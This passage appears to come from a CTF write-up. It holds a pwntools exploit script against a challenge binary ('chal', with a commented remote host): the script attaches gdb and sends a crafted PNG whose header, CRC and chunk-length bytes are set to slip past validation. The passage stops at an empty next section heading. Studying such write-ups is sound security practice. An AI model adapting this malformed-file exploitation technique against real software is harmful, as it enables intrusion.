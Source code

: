 ```python
from pwn import * 
context.arch='amd64'
context.log_level='debug'
# context.terminal = ['tmux', 'splitw', '-h']

cn = process("./chal")
# cn = remote("mc.ax", 31412)

bps = [0x0000000000401A6B, 0x000000000401A3F, 0x00000000004015F9, 0x00000000004015E1]
# bps = [0x000000000401A6B]
cmd = "" 
for bp in bps:
    cmd += "b * {}\n".format(bp)
print(cmd)
gdb.attach(cn, cmd)

leng = 0x29
cn.sendlineafter("How large is your file?\n\n", str(leng))
pngheader = [0x89, 0x50, 0x4E, 0x47, 0x0D, 0x0A, 0x1A, 0x0A]
data = list(flat(bytes(pngheader), 'a').ljust(leng, b'\x00'))

# pngHeadValidate
#   check1
data[11] = 0xd
#   check2 crc
data[29] = 0xc9
data[30] = 0xef 
data[31] = 0xf1
data[32] = 0xbd

# pngChunkValidate: len 
data[0x24] = 0x30 - 1 - 8

# wow, this causes `updata_crc` to return 0x1818
# data[0x25] = 0x18
# data[0x26] = 0x0b

data[0x25] = 0x18
data[0x26] = 0x0b


cn.sendafter("please send your image here:\n\n", bytes(data))
cn.sendlineafter("do you want to invert the colors?\n", "y")

cn.interactive()
```

## panda-food

### 分析
